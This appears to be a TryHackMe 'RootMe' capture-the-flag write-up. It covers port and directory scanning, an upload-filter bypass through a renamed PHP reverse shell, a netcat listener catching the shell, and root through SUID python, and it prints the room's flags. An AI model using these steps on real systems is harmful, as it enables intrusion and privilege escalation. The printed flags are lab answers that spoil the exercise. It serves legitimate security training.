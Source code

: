 ```yaml
---
layout: single
title: RootMe - TryHackMe
excerpt: "RootMe is a quick and fun easy CTF for beginners where we have to upload a php file to receive a reverse shell and use python to be root"
date: 2023-01-31
classes: wide
toc: true
toc_label: "Contenido"
toc_icon: "fire"
header:
  teaser: /assets/images/try-writeup-rootme/iconxd.png
  teaser_home_page: true
  icon: /assets/images/tryhackme.webp
categories:
  - TryHackme
tags:  
  - SUID
  - PHP
---
```

![](/assets/images/try-writeup-rootme/icon.png)

RootMe is a quick and fun easy CTF for beginners where we have to upload a php file to receive a reverse shell and use python to be root

## PortScan

```
Nmap scan report for 10.10.55.4
Host is up (0.37s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Task 2 Reconnaissance

*Scan the machine, how many ports are open?* `2`

*What version of Apache is running?* `2.4.29`

*What service is running on port 22?* `ssh`

*Find directories on the web server using the GoBuster tool.* `No answer needed`

To answer the last question we need to do fuzzing first

```
❯ gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/raft-medium-directories.txt -t 20 -u http://10.10.55.4
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.55.4
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/01/31 23:38:50 Starting gobuster in directory enumeration mode
===============================================================
/js                   (Status: 301) [Size: 305] [--> http://10.10.55.4/js/]
/uploads              (Status: 301) [Size: 310] [--> http://10.10.55.4/uploads/]
/css                  (Status: 301) [Size: 306] [--> http://10.10.55.4/css/]    
/panel                (Status: 301) [Size: 308] [--> http://10.10.55.4/panel/]  
/server-status        (Status: 403) [Size: 275]
```

*What is the hidden directory?* `/panel/`

The same directories
```
❯ nmap --script http-enum -p80 10.10.55.4 -oN webScan
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-31 23:41 CST
Nmap scan report for 10.10.55.4
Host is up (0.16s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'

```

## Getting a shell

WebPage

```js
❯ whatweb http://10.10.55.4
http://10.10.55.4 [200 OK] Apache[2.4.29], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.55.4], Script, Title[HackIT - Home]
```

This is the WebPage

![](/assets/images/try-writeup-rootme/webpage.png)

We can upload files in `/panel/`

![](/assets/images/try-writeup-rootme/panel.png)

The web have PHP so can try to upload a file to receive a reverse shell

- [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```
❯ git clone https://github.com/pentestmonkey/php-reverse-shell
Clonando en 'php-reverse-shell'...
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 10 (delta 1), reused 1 (delta 1), pack-reused 7
Recibiendo objetos: 100% (10/10), 9.81 KiB | 4.90 MiB/s, listo.
Resolviendo deltas: 100% (2/2), listo.
❯ ls
 php-reverse-shell
❯ cd php-reverse-shell
❯ ls
 CHANGELOG   COPYING.GPL   COPYING.PHP-REVERSE-SHELL   LICENSE   php-reverse-shell.php   README.md
```

Now we have to modify the script with our IP and port 

![/assets/images/try-writeup-rootme/xd.png](/assets/images/try-writeup-rootme/xd.png)


If you try to upload the file doesn't work 

![/assets/images/try-writeup-rootme/F.png](/assets/images/try-writeup-rootme/F.png)


We need to bypass that so change the name of the script

```
❯ mv php-reverse-shell.php php-r.phptml
❯ ls
 CHANGELOG   COPYING.GPL   COPYING.PHP-REVERSE-SHELL   LICENSE   php-r.phptml   README.md
```

It works 

![/assets/images/try-writeup-rootme/work.png](/assets/images/try-writeup-rootme/work.png)

Now go to `/uploads`

![/assets/images/try-writeup-rootme/shell.png](/assets/images/try-writeup-rootme/shell.png)


Now listen on the port you put in the script

```
❯ nc -lvnp 443
listening on [any] 443 ...
```

Click on the file if you have problems or you don't receive the shell change the name of the script `.php5`

![/assets/images/try-writeup-rootme/click.png](/assets/images/try-writeup-rootme/click.png)


```
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.18.12.205] from (UNKNOWN) [10.10.55.4] 41936
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 06:11:23 up 41 min,  0 users,  load average: 0.00, 0.00, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@rootme:/$
Ctrl+z
stty raw -echo; fg
reset xterm
```

## User.txt

```
www-data@rootme:/$ find / -name user.txt 2>/dev/null
/var/www/user.txt
www-data@rootme:/$
```

```
www-data@rootme:/$ cat /var/www/user.txt 
THM{y0u_g0t_a_sh3ll}
www-data@rootme:/$
```

## Privilege escalation

Python is SUID

```
www-data@rootme:/$ find / -perm -4000 2>/dev/null | grep -v snap   
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
www-data@rootme:/$
```

*Search for files with SUID permission, which file is weird?* `/usr/bin/python`

*Find a form to escalate your privileges.* `no answer needed`

Before root.txt

-[Be root with python](https://gtfobins.github.io/gtfobins/python/#suid)

```
www-data@rootme:/$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt  
THM{pr1v1l3g3_3sc4l4t10n}
# 
```

*root.txt* `THM{pr1v1l3g3_3sc4l4t10n}`















































